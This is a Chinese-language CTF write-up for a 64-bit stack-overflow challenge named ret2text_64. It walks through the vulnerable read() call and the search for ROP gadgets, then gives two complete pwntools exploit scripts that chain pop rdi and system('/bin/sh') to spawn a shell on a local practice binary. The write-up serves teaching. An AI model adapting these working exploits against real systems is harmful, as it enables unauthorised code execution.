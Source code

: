 # ret2text_64

- 作者：pn1fg
- 参考：W4terCTF 2023
- 难度：Medium
- 分类：Pwn
- 镜像：-
- 端口：70

## 题目描述

64位栈溢出

## 题目解析

- 源码：[ret2text_64.c](build/ret2text_64.c)
- 考点：64位下ROP - ret2text

这是`ret2text_32`的升级版，64位程序与32位不同，函数在传参的时候是通过寄存器来传参

64位程序传参：

参数：a，b，c，d，e，f，g，h

- 前 6 个：a->%rdi，b->%rsi，c->%rdx，d->%rcx，e->%r8，f->%r9
- 从第七个开始恢复到 32 位传参方式，从右至左压入栈中

______________________________________________________________________

#### 查看文件信息

查看文件类型：

```shell
>>> file ret2text_64
ret2text_64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d76b1f973484a43907334ef6a59bce3bd057b539, for GNU/Linux 3.2.0, not stripped
```

这是一个 64 位的 ELF 文件，动态链接，没有去除符号

查看保护机制：

```shell
>>> checksec --file=ret2text_64
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

这里只打开了 NX 保护

#### 分析漏洞成因

反汇编`vuln`函数：

```c
┌ 112: sym.vuln ();
│           ; var size_t nbyte @ rbp-0x4
│           ; var void *buf @ rbp-0x40
│           0x0040125c      f30f1efa       endbr64
│           0x00401260      55             push rbp
│           0x00401261      4889e5         mov rbp, rsp
│           0x00401264      4883ec40       sub rsp, 0x40
│           0x00401268      488d05711100.  lea rax, str.But_this_time..you_need_to_find_the_point_to_get_it_ ; 0x4023e0 ; "But this time..you need to find the point to get it!"
│           0x0040126f      4889c7         mov rdi, rax                ; const char *s
│           0x00401272      e809feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401277      488d05971100.  lea rax, str.Whats_your_age_ ; 0x402415 ; "What's your age?"
│           0x0040127e      4889c7         mov rdi, rax                ; const char *s
│           0x00401281      e8fafdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401286      488d45fc       lea rax, [nbyte]
│           0x0040128a      4889c6         mov rsi, rax
│           0x0040128d      488d05921100.  lea rax, [0x00402426]       ; "%d"
│           0x00401294      4889c7         mov rdi, rax                ; const char *format
│           0x00401297      b800000000     mov eax, 0
│           0x0040129c      e81ffeffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│           0x004012a1      488d05811100.  lea rax, str.Now..try_to_overflow_ ; 0x402429 ; "Now..try to overflow!"
│           0x004012a8      4889c7         mov rdi, rax                ; const char *s
│           0x004012ab      e8d0fdffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004012b0      8b55fc         mov edx, dword [nbyte]      ; size_t nbyte
│           0x004012b3      488d45c0       lea rax, [buf]
│           0x004012b7      4889c6         mov rsi, rax                ; void *buf
│           0x004012ba      bf00000000     mov edi, 0                  ; int fildes
│           0x004012bf      b800000000     mov eax, 0
│           0x004012c4      e8d7fdffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
│           0x004012c9      90             nop
│           0x004012ca      c9             leave
└           0x004012cb      c3             ret
```

本题的漏洞点在`read`函数处，从标准输入，读入大小为 nbyte 的数据存入 buf 数组，buf 的大小 0x40，nbyte 的大小由第一次`scanf`函数接收的为准，所以这题的输入大小由我们决定，可以输入超出 buf 的长度，覆盖 `rbp`的值，造成栈溢出

反编译`b4ckdoor`函数

```c
void sym.b4ckdoor(void)

{
    sym.imp.system("echo hi!");
    return;
}
```

`system`调用`echo`输出 hi ，可惜没有调用`/bin/sh`，这里给大家介绍个工具

ROPgadget，利用这个工具我们可精确的查找到程序中的一些字符串，例如查找`/bin/sh`

- 命令格式：ROPgadget --binary FILE --string "/bin/sh"

```shell
>>> ROPgadget --binary ret2text_64 --string "/bin/sh"
Strings information
============================================================
0x0000000000404050 : /bin/sh
```

上面讲述过64位程序传参需要通过寄存器，刚刚的工具也可以用来寻找寄存器

- 命令格式：ROPgadget --binary FILE --only 'pop|ret'

```shell
>>> ROPgadget --binary ret2text_64 --only 'pop|ret'
Gadgets information
============================================================
0x000000000040119d : pop rbp ; ret
0x000000000040123d : pop rdi ; ret
0x000000000040101a : ret

Unique gadgets found: 3
```

本题我们只需要用到`rdi`

分析到这，本题的大概思路就有了，首先溢出，因为没有后门函数，所以需要我们手动在栈上构造 ROP 链调用`system`执行`/bin/sh`从而拿到 shell。

#### 编写利用程序

这里我们提供两种写法供同学们研究，第一种是比较正规的做法，第二种是懒人做法

[exp.py](writeup/exp.py) :

```python
from pwn import *

context.arch = 'amd64'
context.log_level = "debug"

io = process("./ret2text_64")
elf = ELF("./ret2text_64")

pop_rdi_ret = 0x0040123d
bin_sh = 0x00404050
ret = 0x0040101a

io.sendlineafter(b"age?\n", b"1000")

payload = flat([
    cyclic(0x40 + 8),
    pop_rdi_ret,
    bin_sh,
    ret,
    elf.sym["system"]
])
io.sendlineafter(b"overflow!\n", payload)

io.interactive()
```

[exp2.py](writeup/exp2.py) :

```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

io = process("./ret2text_64")
elf = ELF("./ret2text_64")
rop = ROP(elf)

io.sendlineafter(b"age?\n", b"1000")

padding = cyclic(0x40 + 8)
bin_sh = next(elf.search(b"/bin/sh"))
ret = rop.find_gadget(["ret"])

rop.raw(padding)
rop.raw(ret)
rop.call(elf.sym["system"], [bin_sh])
payload = rop.chain()

io.sendlineafter(b"overflow!\n", payload)

io.interactive()
```
